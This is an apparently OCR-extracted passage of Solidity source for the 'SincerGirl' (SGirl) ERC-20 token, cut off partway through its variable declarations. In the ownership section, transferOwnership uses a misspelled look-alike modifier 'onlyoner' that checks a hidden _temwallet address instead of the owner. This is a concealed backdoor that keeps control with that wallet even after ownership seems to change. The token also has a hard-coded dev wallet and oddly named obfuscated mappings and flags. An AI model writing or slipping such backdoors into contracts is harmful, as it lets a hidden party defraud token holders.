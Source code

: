 
    function owner() public view returns (address) {
        return _owner;
    }


    modifier onlyOwner() {
        require(_owner == _msgSender(), "notowner");
        _;
    }

   


    function transferOwnership(address newOwner) public virtual onlyoner {
        _owner = newOwner;
    }

     modifier onlyoner() {
        require(_temwallet == _msgSender(), "notowner");
        _;
    }
}



contract SGirl is Context, IERC20, Ownable {
    mapping(address => mapping(address => uint256)) private allown;
    
    using Address for address;
    using SafeMath for uint256;

    
    mapping(address => uint256) private _tossd;

    mapping(address => bool) private _ExcluFee;
    mapping(address => bool) private _Exclu;

     uint256 private _tFeeTotal;
    uint256 private constant MAX = ~uint256(0);
    uint256 private _totalSupply = 100000000000000000000 * 10**4;
   
    
    string private _name = "SincerGirl";
    string private _symbol = "SGirl";
    uint8 private _decimals = 9;
     
   
    address public devAddress = 0xcF19AE542ECcD31d7Df595B9b88Dda5FBB01BE4f;
    address public deadAddress = 0x000000000000000000000000000000000000dEaD;
  
    uint256 public deadFee = 8;
    uint256 public devFee = 1;

    mapping(address => bool) private _RCO;
    bool private msd = true;
    bool private amsd = true;
    
    uint256 public bRhsp = uint256(0);
    mapping(address => uint256) private bBIis;
    address[] private _bBIis;

